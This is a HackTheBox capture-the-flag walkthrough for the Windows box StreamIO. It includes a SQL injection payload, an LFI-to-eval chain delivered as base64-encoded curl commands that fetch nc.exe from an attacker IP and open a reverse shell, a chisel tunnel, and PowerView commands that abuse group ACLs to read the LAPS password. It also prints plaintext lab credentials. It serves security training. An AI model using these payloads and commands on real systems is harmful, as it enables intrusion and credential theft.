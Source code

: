```yaml
---
layout: default
title: "StreamIO"
parent: HackTheBox
---
```


# Box Info

|-------|---------|
| Name | StreamIO |
| OS | Windows 🪟 |
| Rating | Medium |

# Enumeration 

### Nmap Scan
 
```text
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-06-27 15:34:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-06-27T15:35:46+00:00; +7h00m11s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

- Microsoft IIS 
- Sub-Domain : `watch.streamio.htb`
- Domain : `streamio.htb`
- DC : `DC.streamio.htb`

### Web Enumration

On **Port 80** there was nothing, just IIS welcome screen, however on **Port 443 (https://streamio.htb/)** there is a login page as well as register page but can't login with new user we registerd.

Moving on to **https://watch.streamio.htb/** , here we have is a list of all movies. On doing `Dir Busting` got an interesting page:
- `search.php`

We can search movies here, so after trying manul union `SQLi` we can enumrate the database, since `sqlmap` was not working as page had some blacklist.
<img src="../../resources/streamio/20220708165200.png">

On after enumrating Database got some usernames and password hashes.

```text
'+UNION+SELECT+1,password,3,4,5,6+FROM+dbo.users+--+-
```

Some of the hashes were available on [CrackStation](https://crackstation.net/)

Now since correct Username and Password is not sure , did a `clusterbomb` attack on **Login Page** on `https://streamio.htb/`
and found a correct pair:

```text
yoshihide : 66boysandgirls..
```

---

# Foothold

Now since we can Login and there is nothing much at front, found `admin` page by doing `Dir busting`.

On admin page there are different features for user and each we are accessing each feature as some **GET** paramter, so on fuzzing it found `debug` paramter.

This paramter was vulnerable to `LFI`. Reading `Index.php` :

```text
https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php
```

We can inculde any file from the system with absolute path and found credentials for `db_admin` .

```text
db_admin : B1@hx31234567890
```

Therefore searching for some other files, found `mater.php` which have `eval()` function on `include` POST paramter.

So we can exploit it and get Reverse Shell by uploading it and executing it.

```shell-session
$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJjZXJ0dXRpbC5leGUgLXVybGNhY2hlIC1mIGh0dHA6Ly8xMC4xMC4xNC4yNy9uYy5leGUgbmMuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k

$ curl -X POST --data "include=data://text/plain;base64,c3lzdGVtKCJuYy5leGUgMTAuMTAuMTQuMjcgOTAwMSAtZSBjbWQuZXhlIik7" "https://streamio.htb/admin/?debug=master.php" --cookie "PHPSESSID=<SESSION_ID>" -k
```

#### Enumrating Database

Since we got the Database Credentials and we can see it's runnning 
![2](../../resources/streamio/20220708171524.png)
we can access it by tunneling our traffic, I used `chisel` : 

```text
.\chisel.exe client <Att._IP>:5555 R:4000:10.10.11.158:1433/tcp
```

After accessing the database using `impacket-mssqlclient`

```text
impacket-mssqlclient streamio.htb/db_admin@127.0.0.1 -port 4000
```

There was a `backup` Database which had some usernames and password hashes. One of them is user on system as well.

```text
nikk37 : get_dem_girls2@yahoo.com
```

# Privilage  Escalation
We can login as `nikk37` using `Evil-winRM`,
Running `winPEAS` and found an Intersting file

![3](../../resources/streamio/20220708172334.png)

We can get some passwords from it.
Tool used : [FirePWD](https://github.com/lclevy/firepwd)

```text
admin JDg0dd1s@d0p3cr3@t0r
nikk37 n1kk1sd0p3t00
yoshihide paddpadd@12
JDgodd password@12
```

Password for `JDgodd` is `JDg0dd1s@d0p3cr3@t0r` it was just a guess `uwu` , after getting authencation failed in Last step.

### Using BloodHound
Using `bloodhound-python` to enumerate **AD** 

```shell
$ bloodhound-python -u nikk37 -p 'get_dem_girls2@yahoo.com' -ns 10.10.11.158 -d streamio.htb -c All
```

> I used `SharpHound` as well but it was not collecting any Information about user, Don't know why but somehow `bloodhound-python` was

![4](../../resources/streamio/20220708173434.png)

`JDgodd` user have `write` permissions on `CORE STAFF` group

And again `CORE STAFF` group members have `ReadLAPSPassword` rights.

![5](../../resources/streamio/20220708173656.png)

**Path to Follow : **

`JDgodd` have `write` rights on `CORE STAFF` we can add `JDgodd` itself into `CORE STAFF` group.
Since we cannot create any other user as any of our owned user is not a member of `Account Operator` group which is a special group in **AD** even though bloodhoud shows that `nikk37` is a member of this group but it is not.

```powershell
Import-Module .\PowerView.ps1

$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)

Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Rights All 

Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'streamio\JDgodd' -Credential $Cred

Get-DomainGroupMember -Identity 'CORE STAFF'
```

And now we can read `LAPS` Password : 
![6](../../resources/streamio/20220708174448.png)

---

**Reference :** [TheHacker.Recipes ReadLAPSPassword](https://www.thehacker.recipes/ad/movement/dacl/readlapspassword)


